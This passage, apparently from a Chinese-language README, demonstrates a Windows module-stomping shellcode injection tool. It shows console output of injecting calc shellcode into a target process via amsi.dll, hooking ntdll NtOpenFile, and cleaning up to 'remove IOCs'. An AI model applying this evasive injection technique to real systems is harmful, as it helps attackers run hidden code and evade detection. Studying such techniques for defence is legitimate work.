 4. **NtAllocateVirtualMemory** - 内存分配
   - 几乎所有操作都会触发

## 执行流程示例

### 步骤 1: 注入

```cmd
C:\> module_stomping.exe 5678 calc_shellcode.bin amsi.dll ntdll.dll NtOpenFile

[+] Module Stomping Injection
[+] Target PID: 5678
[+] Shellcode: calc_shellcode.bin
[+] Module to load: amsi.dll
[+] Hook target: ntdll.dll!NtOpenFile

[+] Shellcode loaded: 276 bytes

[+] Loading module amsi.dll into target process...
[+] Allocated memory for module name at 0000000002B40000
[+] Module loaded successfully
[+] Local module base: 00007FFE8A2D0000
[+] .text section: base=00007FFE8A2D1000, size=51200 bytes
[+] Random offset: 0x3A8C (14988 bytes)

[+] RX hole found at 00007FFE8A2D4A8C in amsi.dll

[+] NtOpenFile address: 00007FFE8C5E1234
[+] Original bytes: 4C 8B D1 B8 33 00 00 00
[+] Writing HookCode + Shellcode to RX hole...
[+] HookCode + Shellcode written successfully
[+] Hooking API NtOpenFile...
[+] API hooked successfully

[+] Injection complete!
[+] Waiting for callback...
[+] Trigger the hooked API (NtOpenFile) in the target process
```

### 步骤 2: 触发

在目标进程中执行操作（如打开文件），触发 `NtOpenFile` 调用 → 执行 shellcode（弹出 calc.exe）

### 步骤 3: 清除

```cmd
[?] Press ENTER when you receive a callback to restore memory protection...
<按回车>

[+] Restoring memory protection...
[+] API protection restored (RWX -> RX)

[?] Press ENTER to unload amsi.dll and remove IOCs...
<按回车>

[+] Unloading module amsi.dll...
[+] Module handle: 00007FFE8A2D0000
[+] Module unloaded successfully

[+] All IOCs removed!
[+] Module Stomping complete.
```
